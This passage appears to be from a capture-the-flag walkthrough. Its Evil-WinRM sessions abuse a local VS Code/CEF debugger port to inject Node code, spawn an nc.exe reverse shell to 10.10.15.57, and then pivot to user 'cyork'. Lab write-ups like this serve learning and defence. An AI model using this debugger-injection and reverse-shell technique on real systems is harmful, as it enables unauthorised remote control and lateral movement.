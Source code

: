 text

```text
*Evil-WinRM* PS C:\Program Files\Microsoft VS Code\bin> more ../\resources\app\out\cli.js
/*---------------------------------------------------------------------------------------------
 *  Copyright (c) Microsoft Corporation. All rights reserved.
 *  Licensed under the MIT License. See License.txt in the project root for license information.
 *--------------------------------------------------------------------------------------------*/
"use strict";const bootstrap=require("./bootstrap");bootstrap.avoidMonkeyPatchFromAppInsights(),bootstrap.configurePortable(),bootstrap.enableASARSupport(),require("./bootstrap-amd").load("vs/code/node/cli");
//# sourceMappingURL=https://ticino.blob.core.windows.net/sourcemaps/f06011ac164ae4dc8e753a3fe7f9549844d15e35/core/cli.js.map
```

text

```text
*Evil-WinRM* PS C:\Program Files\Microsoft VS Code\bin> ./code --inspect
code.cmd : Debugger listening on ws://127.0.0.1:9229/a377826b-0406-4fce-8a79-41ac482f80fb
    + CategoryInfo          : NotSpecified: (Debugger listen...79-41ac482f80fb:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
For help, see: https://nodejs.org/en/docs/inspector
```

text

```text
*Evil-WinRM* PS C:\Users\alcibiades> ./c.exe
c.exe : [2020/07/24 07:42:30:1971] U: There are 3 tcp sockets in state listen.
    + CategoryInfo          : NotSpecified: ([2020/07/24 07:...n state listen.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
[2020/07/24 07:42:50:2430] U: There were 1 servers that appear to be CEF debuggers.
[2020/07/24 07:42:50:2430] U: ws://127.0.0.1:7437/68e9868e-29b8-48fc-9612-8be4aea95ccd
```

had to keep starting over again as the CEF debug server kept changing

```text
*Evil-WinRM* PS C:\Users\alcibiades> C:\Users\alcibiades\c.exe --url ws://127.0.0.1:7437/68e9868e-29b8-48fc-9612-8be4aea95ccd --code "process.mainModule.require('child_process').exec('cmd.exe /c C:\Users\alcibiades\nc.exe 10.10.15.57 4445 -e cmd.exe')"
c.exe : [2020/07/24 07:44:55:7426] U: >>> process.mainModule.require('child_process').exec('cmd.exe /c C:\Users\alcibiades\nc.exe 10.10.15.57 4445 -e cmd.exe')
    + CategoryInfo          : NotSpecified: ([2020/07/24 07:...45 -e cmd.exe'):String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
[2020/07/24 07:44:55:7426] U: <<< ChildProcess
```

### Moving laterally to user - `cyork`

```text
*Evil-WinRM* PS C:\Users\cyork\Documents> whoami /all

USER INFORMATION
----------------

User Name       SID
=============== =============================================
megacorp\cyork S-1-5-21-3167813660-1240564177-918740779-3110


GROUP INFORMATION
-----------------

```